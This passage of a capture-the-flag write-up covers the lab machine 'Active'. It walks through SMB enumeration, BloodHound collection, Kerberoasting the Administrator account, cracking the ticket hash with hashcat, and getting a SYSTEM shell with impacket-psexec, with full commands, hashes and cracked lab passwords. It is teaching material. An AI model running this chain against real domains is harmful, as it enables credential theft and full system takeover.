# use users
# ls
drw-rw-rw-          0  Sat Jul 21 10:39:20 2018 .
drw-rw-rw-          0  Sat Jul 21 10:39:20 2018 ..
drw-rw-rw-          0  Mon Jul 16 06:14:21 2018 Administrator
drw-rw-rw-          0  Mon Jul 16 17:08:56 2018 All Users
drw-rw-rw-          0  Mon Jul 16 17:08:47 2018 Default
drw-rw-rw-          0  Mon Jul 16 17:08:56 2018 Default User
-rw-rw-rw-        174  Mon Jul 16 17:01:17 2018 desktop.ini
drw-rw-rw-          0  Mon Jul 16 17:08:47 2018 Public
drw-rw-rw-          0  Sat Jul 21 11:16:32 2018 SVC_TGS
# cd Administrator
[-] SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
# cd SVC_TGS
# ls
drw-rw-rw-          0  Sat Jul 21 11:16:32 2018 .
drw-rw-rw-          0  Sat Jul 21 11:16:32 2018 ..
drw-rw-rw-          0  Sat Jul 21 11:14:20 2018 Contacts
drw-rw-rw-          0  Sat Jul 21 11:14:42 2018 Desktop
drw-rw-rw-          0  Sat Jul 21 11:14:28 2018 Downloads
drw-rw-rw-          0  Sat Jul 21 11:14:50 2018 Favorites
drw-rw-rw-          0  Sat Jul 21 11:15:00 2018 Links
drw-rw-rw-          0  Sat Jul 21 11:15:23 2018 My Documents
drw-rw-rw-          0  Sat Jul 21 11:15:40 2018 My Music
drw-rw-rw-          0  Sat Jul 21 11:15:50 2018 My Pictures
drw-rw-rw-          0  Sat Jul 21 11:16:05 2018 My Videos
drw-rw-rw-          0  Sat Jul 21 11:16:20 2018 Saved Games
drw-rw-rw-          0  Sat Jul 21 11:16:32 2018 Searches
# cd Desktop
# ls
drw-rw-rw-          0  Sat Jul 21 11:14:42 2018 .
drw-rw-rw-          0  Sat Jul 21 11:14:42 2018 ..
-rw-rw-rw-         34  Sun Sep 20 12:21:39 2026 user.txt
# get user.txt
# 
```

```
wc -c user.txt
34 user.txt
```

And I found the user flag in the `Users` share. Now comes the difficult part, which is `Privilege Escalation` in Active Directory Environments.

## Privilege Escalation

To find attacking vectors which would lead to privesc, I started off with `BloodHound`. I proceeded to use `NetExec` utility for gathering domain information in the form of ingestable `json` files compressed in a zip file.

```
nxc ldap 10.129.66.19 -d active.htb --dns-server 10.129.66.19 -u svc_tgs -p 'GPPstillStandingStrong2k18' --bloodhound -c all
LDAP        10.129.66.19    389    DC               [*] Windows 7 / Server 2008 R2 Build 7601 (name:DC) (domain:active.htb) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.66.19    389    DC               [+] active.htb\svc_tgs:GPPstillStandingStrong2k18
LDAP        10.129.66.19    389    DC               Resolved collection methods: acl, adcs, container, dcom, group, localadmin, loggedon, objectprops, psremote, rdp, session, trusts
LDAP        10.129.66.19    389    DC               Excluded collection methods:
LDAP        10.129.66.19    389    DC               Bloodhound data collection completed in 0M 19S
LDAP        10.129.66.19    389    DC               Collecting ADCS data (CertiHound)...
LDAP        10.129.66.19    389    DC               Found 0 certificate templates
LDAP        10.129.66.19    389    DC               Found 0 Enterprise CAs
LDAP        10.129.66.19    389    DC               Compressing output into /home/akku/.nxc/logs/DC_10.129.66.19_2026-09-20_205638_bloodhound.zip
```

I copied the bloodhound zip file to my working directory to start my domain enumeration, booted up `bloodhound` on my local machine & uploaded the zip file. After setting up my bloodhound, I marked the `SVC_TGS` user as owned so that when I search for queries, the bloodhound will know my starting node.





I couldn't find anything interesting in the `MemberOf` query for the user `SVC_TGS`.



And there were no `Outbound Object Control` rights to the user `SVC_TGS`.



Then, I looked around for any queries which will return some data which could potentially be useful for privesc & found out that the `Administrator` user on the domain is a member of the group `Domain Admins` & is kerberoastable as well, which means that I can potentially steal the user's `krb5` hash & try to crack it to find the password. I used the `impacket-GetUserSPNs` utility for this purpose.



```
impacket-GetUserSPNs active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.129.66.19 -request
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2026-09-20 12:21:42.387740


[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$450a9c6dcfa20e49754d5e7d65ab58b5$eddb8fbe97e53e8b0bc722ed9b14c59aa4267649d93072dfcb6360caa453def0775701f8932fbd8e839ab1568c9ce090f935abe71c248f79afa03e690aa6ff1418b181ab272dc1b24d2e5d7a3f1d7d9015a38c56bdbcbaf39e40b6503b657ea7ac670625c36ada0263dbb70d710f2a27344c5797517956788cf909a2df8bc0327a6cd5a57a96b446695fa360e11e28e9fc34974b9ae53475f4c909b574571750958119f7a464ced82cdd1a1489137ee28049cba6827c4a181af8dd66fddbc1d88fbfed5be04f997e45f6ff0d4ac39c344262747fb491a944ada0e4bc55d420c30c81f31956d431e6f9038eb4bbdcaf3b654a68ae8a3f5507208321fa08fbbcb605b321312e0dbabb3a4327f594ecb9332940d4ac30316842f97b2ff601c981e5d0b0239b3a51d0a861bc2b3063ab922755670a6c7c3730c0b6a7d4ff130914391b2c00263f2bc68e8996ea2adbc1e61f7288bb225234e44ed26b3d88064d09fd62ac86615951da7a55b51ef22023cbfcbe682717b33009213d97ac18ddd9fa168b0c990e03c99e43e0626acf866844e2c6a92cb98b5f0b888481fe8ed8a3c91861b6c85ac29d208d20d8d24a5c5af85747ffe7234a20e75313696adae3c7746dcf94e51a0aeedf84381c696ed63132b47f8daadefc3a6423fa330609aec0a16b201a1f6d81ef1acc71bc7d3b032eec7add05a4904a1d6bf6e819f64ed0d3210a86f56ce196dcae9e97df3729aa2114a9b186313f8ea3946331f9f5a8570bdb531256bb490e2015dd6234b016397d3794c12575668861b1332d7494288fe53dd81b67e3dadf7606c90cf8bb5070989daa0fd29fcb57e5bf1a48c1038bf808ccf697b2292caa4404f6f5dc5cfee4b79205f3869b93a5c785c17f55b3a31732a645e71062795515716b6ba1675a82cbcae2fdce217db6ea8161980d4ffe0d0c24121734e886d68ad4471f8149310fd651ec3713daeb3c86e710ac80c318ea8f371305633f410d068bb550c0df5695d87b1533d3310794b8b112d680df8acf798b043012e6f97cbeff2be1cff17d5d787490d19a3ab638e91b4d58a2404955255df395ed331745906605a1ed2ff124e9ab3cf0cf4efc24164460f72cc514fef03b599034f80054016d8a22c4cd7b63a5e25eb34dd0a670a9f9a62e970c0cf5ab328b66b5e9ec551bbab5a644f17dddae6f451d492bbace7fc62d11303f721d10ba5fbfdcddcf950e21221ab80804e17495a85e1b3d0805230f7bf7c5
```

I found the administrator hash successfully. Now, it's time to crack it. To identify the hash type, I went to [hashcat's wiki](https://hashcat.net/wiki/doku.php?id=example_hashes) page to identify the hash type, & searched for the string `$krb5tgs$23` & found out that the hash mode for the administrator hash is `13100` & then proceeded to try to crack the administrator hash to get the password.



I saved the hash to a new file, which I called hashes.txt.

```
echo '$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$450a9c6dcfa20e49754d5e7d65ab58b5$eddb8fbe97e53e8b0bc722ed9b14c59aa4267649d93072dfcb6360caa453def0775701f8932fbd8e839ab1568c9ce090f935abe71c248f79afa03e690aa6ff1418b181ab272dc1b24d2e5d7a3f1d7d9015a38c56bdbcbaf39e40b6503b657ea7ac670625c36ada0263dbb70d710f2a27344c5797517956788cf909a2df8bc0327a6cd5a57a96b446695fa360e11e28e9fc34974b9ae53475f4c909b574571750958119f7a464ced82cdd1a1489137ee28049cba6827c4a181af8dd66fddbc1d88fbfed5be04f997e45f6ff0d4ac39c344262747fb491a944ada0e4bc55d420c30c81f31956d431e6f9038eb4bbdcaf3b654a68ae8a3f5507208321fa08fbbcb605b321312e0dbabb3a4327f594ecb9332940d4ac30316842f97b2ff601c981e5d0b0239b3a51d0a861bc2b3063ab922755670a6c7c3730c0b6a7d4ff130914391b2c00263f2bc68e8996ea2adbc1e61f7288bb225234e44ed26b3d88064d09fd62ac86615951da7a55b51ef22023cbfcbe682717b33009213d97ac18ddd9fa168b0c990e03c99e43e0626acf866844e2c6a92cb98b5f0b888481fe8ed8a3c91861b6c85ac29d208d20d8d24a5c5af85747ffe7234a20e75313696adae3c7746dcf94e51a0aeedf84381c696ed63132b47f8daadefc3a6423fa330609aec0a16b201a1f6d81ef1acc71bc7d3b032eec7add05a4904a1d6bf6e819f64ed0d3210a86f56ce196dcae9e97df3729aa2114a9b186313f8ea3946331f9f5a8570bdb531256bb490e2015dd6234b016397d3794c12575668861b1332d7494288fe53dd81b67e3dadf7606c90cf8bb5070989daa0fd29fcb57e5bf1a48c1038bf808ccf697b2292caa4404f6f5dc5cfee4b79205f3869b93a5c785c17f55b3a31732a645e71062795515716b6ba1675a82cbcae2fdce217db6ea8161980d4ffe0d0c24121734e886d68ad4471f8149310fd651ec3713daeb3c86e710ac80c318ea8f371305633f410d068bb550c0df5695d87b1533d3310794b8b112d680df8acf798b043012e6f97cbeff2be1cff17d5d787490d19a3ab638e91b4d58a2404955255df395ed331745906605a1ed2ff124e9ab3cf0cf4efc24164460f72cc514fef03b599034f80054016d8a22c4cd7b63a5e25eb34dd0a670a9f9a62e970c0cf5ab328b66b5e9ec551bbab5a644f17dddae6f451d492bbace7fc62d11303f721d10ba5fbfdcddcf950e21221ab80804e17495a85e1b3d0805230f7bf7c5' > hashes.txt
```

```
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-14650HX, 4906/9877 MB (2048 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 4 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$450a9c6dcfa20e49754d5e7d65ab58b5$eddb8fbe97e53e8b0bc722ed9b14c59aa4267649d93072dfcb6360caa453def0775701f8932fbd8e839ab1568c9ce090f935abe71c248f79afa03e690aa6ff1418b181ab272dc1b24d2e5d7a3f1d7d9015a38c56bdbcbaf39e40b6503b657ea7ac670625c36ada0263dbb70d710f2a27344c5797517956788cf909a2df8bc0327a6cd5a57a96b446695fa360e11e28e9fc34974b9ae53475f4c909b574571750958119f7a464ced82cdd1a1489137ee28049cba6827c4a181af8dd66fddbc1d88fbfed5be04f997e45f6ff0d4ac39c344262747fb491a944ada0e4bc55d420c30c81f31956d431e6f9038eb4bbdcaf3b654a68ae8a3f5507208321fa08fbbcb605b321312e0dbabb3a4327f594ecb9332940d4ac30316842f97b2ff601c981e5d0b0239b3a51d0a861bc2b3063ab922755670a6c7c3730c0b6a7d4ff130914391b2c00263f2bc68e8996ea2adbc1e61f7288bb225234e44ed26b3d88064d09fd62ac86615951da7a55b51ef22023cbfcbe682717b33009213d97ac18ddd9fa168b0c990e03c99e43e0626acf866844e2c6a92cb98b5f0b888481fe8ed8a3c91861b6c85ac29d208d20d8d24a5c5af85747ffe7234a20e75313696adae3c7746dcf94e51a0aeedf84381c696ed63132b47f8daadefc3a6423fa330609aec0a16b201a1f6d81ef1acc71bc7d3b032eec7add05a4904a1d6bf6e819f64ed0d3210a86f56ce196dcae9e97df3729aa2114a9b186313f8ea3946331f9f5a8570bdb531256bb490e2015dd6234b016397d3794c12575668861b1332d7494288fe53dd81b67e3dadf7606c90cf8bb5070989daa0fd29fcb57e5bf1a48c1038bf808ccf697b2292caa4404f6f5dc5cfee4b79205f3869b93a5c785c17f55b3a31732a645e71062795515716b6ba1675a82cbcae2fdce217db6ea8161980d4ffe0d0c24121734e886d68ad4471f8149310fd651ec3713daeb3c86e710ac80c318ea8f371305633f410d068bb550c0df5695d87b1533d3310794b8b112d680df8acf798b043012e6f97cbeff2be1cff17d5d787490d19a3ab638e91b4d58a2404955255df395ed331745906605a1ed2ff124e9ab3cf0cf4efc24164460f72cc514fef03b599034f80054016d8a22c4cd7b63a5e25eb34dd0a670a9f9a62e970c0cf5ab328b66b5e9ec551bbab5a644f17dddae6f451d492bbace7fc62d11303f721d10ba5fbfdcddcf950e21221ab80804e17495a85e1b3d0805230f7bf7c5:Ticketmaster1968

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Ad...7bf7c5
Time.Started.....: Sun Sep 20 21:33:19 2026 (3 secs)
Time.Estimated...: Sun Sep 20 21:33:22 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4426.9 kH/s (2.07ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10551296/14344385 (73.56%)
Rejected.........: 0/10551296 (0.00%)
Restore.Point....: 10534912/14344385 (73.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Tioncurtis23 -> TUGGIE
Hardware.Mon.#1..: Util: 34%

Started: Sun Sep 20 21:33:18 2026
Stopped: Sun Sep 20 21:33:23 2026
```

And hashcat successfully cracked the administrator hash & found the password as well, which was `Ticketmaster1968`. Now that I have the administrator password, I can use `impacket-psexec` to get the shell as `NT AUTHORITY\SYSTEM` & get the root flag as well.

```
impacket-psexec active.htb/administrator:Ticketmaster1968@10.129.66.19
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 10.129.66.19.....
[*] Found writable share ADMIN$
[*] Uploading file KhFLrQOv.exe
[*] Opening SVCManager on 10.129.66.19.....
[*] Creating service imrw on 10.129.66.19.....
[*] Starting service imrw.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>dir c:\users\administrator\desktop
 Volume in drive C has no label.
 Volume Serial Number is 15BB-D59C

 Directory of c:\users\administrator\desktop

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
21/01/2021  07:49 ��    <DIR>          .

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
21/01/2021  07:49 ��    <DIR>          ..

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
20/09/2026  07:21 ��                34 root.txt

               1 File(s)             34 bytes
               2 Dir(s)   1.140.588.544 bytes free

C:\Windows\system32>
```

And I was finally able to get the root flag as well.